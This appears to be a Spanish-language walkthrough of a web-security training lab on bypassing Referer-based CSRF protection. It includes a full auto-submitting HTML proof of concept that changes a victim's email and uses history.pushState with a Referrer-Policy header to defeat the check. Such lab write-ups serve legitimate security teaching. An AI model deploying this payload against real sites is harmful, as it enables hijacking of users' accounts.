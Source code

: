 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Intenta detectar y bloquear solicitudes entre dominios, pero el mecanismo de detección puede eludirse. Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

iniciamos sesión en el laboratorio interceptamos la solicitud de cambio de contraseña y la enviamos al repeater 
![[Pasted image 20250722123446.png]]

en este caso lo primero que hacemos es validar cual es la porción del referer que se esta validando. hasta que encontramos una respuesta `400 Bad Request` esto nos indica que la solicitud ya no se esta validando correctamente por lo que podemos identificar hasta donde llega la validación del referer.
![[Pasted image 20250722123602.png]]

creamos nuestro CSRF-POC y podemos usar el parámetro `history.pushState('', '', '/');` el primer valor hace referencia al estatus el segundo valor es el titulo y el tercero es la URL. en este caso nos interesa el de la url. 

`NOTA:` la URL puede ser relativa o absoluta. pero debe provenir desde el origen principal. en este caso usamos la url relativa ya que proviene de dicho origen.

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a60003404692c1a810ac58f00300054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a60003404692c1a810ac58f00300054.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

inyectando la URL relativa en el tercer valor del parámetro `history.pushState` 
![[Pasted image 20250722125434.png]]

Si guarda el exploit y lo prueba haciendo clic en "Ver exploit", podría volver a aparecer el error "Encabezado de referencia no válido". Esto se debe a que muchos navegadores eliminan la cadena de consulta del encabezado de referencia de forma predeterminada como medida de seguridad. Para anular este comportamiento y asegurarse de que la URL completa se incluya en la solicitud, vuelva al servidor de exploits y agregue el siguiente encabezado a la sección "Encabezado":

```python
Referrer-Policy: unsafe-url
```

![[Pasted image 20250722130031.png]]